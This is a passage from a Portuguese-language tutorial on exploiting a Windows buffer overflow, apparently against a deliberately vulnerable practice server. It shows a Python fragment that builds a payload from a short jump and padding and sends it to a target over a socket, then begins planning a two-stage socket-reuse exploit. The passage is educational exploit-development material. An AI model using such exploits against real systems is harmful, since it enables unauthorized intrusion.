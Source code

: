 ```python
payload += b"\xeb\xb4" # short jump
payload += b"\x90\x90" # padding do short jump
payload += b"C" * (offset - 70 - 4 - 4) # complemento do buffer

# criando conexao
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,porta))
s.recv(1024)

# enviando payload
print("Enviando payload...")

s.send(payload + b"\r\n")
s.close()

print("Payload enviado.")
```

![Enumaração do comando.](/std/winbof/winbof-70.png)

Caímos diretamente em nosso buffer de 70 bytes, mas e agora, o que fazer com 70 bytes?

Vamos pensar fora da caixa e dividir nosso exploit em dois estágios.

## ESTÁGIO 1: REUSO DE SOCKET

Quando exploramos o comando GTER, nós reaproveitamos uma parte da função WinSocket para diminuir o tamanho do nosso shellcode para 128 bytes.

Para conseguirmos encaixar um shellcode em 70 bytes, precisamos reaproveitar algo mais.

Vamos analizar uma forma simplificada do protocolo TCP:
